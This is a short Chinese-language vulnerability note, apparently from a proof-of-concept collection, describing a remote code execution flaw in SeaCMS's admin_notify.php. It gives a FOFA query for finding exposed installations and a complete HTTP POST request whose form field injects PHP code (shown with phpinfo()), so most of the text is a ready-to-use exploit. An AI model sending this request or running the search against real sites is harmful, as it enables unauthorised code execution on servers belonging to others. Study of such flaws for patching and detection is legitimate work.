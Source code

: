 ## 海洋CMS-admin_notify.php远程代码执行漏洞

海洋CMS影视管理系统admin_notify.php接口存在远程代码执行漏洞，未经授权攻击者可通过该漏洞获取服务器权限。

## fofa

```
body="http://www.seacms.net"
```

## poc

```
POST /SeaCMS_12.9/Upload/pwh4pc/admin_notify.php?action=set HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Priority: u=1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Referer: http://127.0.0.1/SeaCMS_12.9/Upload/pwh4pc/admin_notify.php
Sec-Fetch-Dest: document
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=8h9dt1md0b4ppcvdrjn64kfsum
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Mode: navigate
Origin: http://127.0.0.1
Accept-Encoding: gzip, deflate, br, zstd
 
notify1=1";phpinfo();;//&notify2=2&notify3=3
```

![image-20240614211549684](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406142115738.png)